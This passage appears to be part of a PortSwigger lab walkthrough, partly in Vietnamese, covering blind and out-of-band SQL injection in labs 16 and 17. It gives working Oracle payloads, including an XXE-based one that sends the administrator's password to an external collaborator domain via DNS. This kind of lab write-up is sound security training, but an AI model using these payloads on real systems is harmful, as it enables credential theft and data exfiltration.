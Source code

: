   ```'OR (select case when substr(password,i,1) = '{c}'  then to_char(1/0) else 'a' end from users where username = 'administrator')='a' --```

 - payload: 

     ```
     'UNION+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//e1gvypgsz74emr0nc7pqvo73wu2kq9.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)+--
     or

      UNION(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://e1gvypgsz74emr0nc7pqvo73wu2kq9.oastify.com/"> %remote;]>'),'/l') FROM dual)--

   ```

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/d65aa1d1-4328-435e-a1b0-a73b786dd587)

=> poll dns capture từ hệ thống hook dns 

=> solve lab 16

# Lab 17: Blind SQL injection with out-of-band data exfiltration

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the administrator user.

+ step 1 : Recon

  - ta cần exploit sql để lấy output của username và password

  - còn biết được là đây là dạng out-of-band sqli  => dbms oracle
 
+ step 2: Exploit

  payload:

       '|| SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username = 'administrator' )||'.qhb7e1w4fjkq23gzsj52b0nfc6ix6m.oastify.com/"> %remote;]>'),'/l') FROM dual

        or

       ' ||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+where+username+%3d+'administrator'+)||'.qhb7e1w4fjkq23gzsj52b0nfc6ix6m.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+)+--
  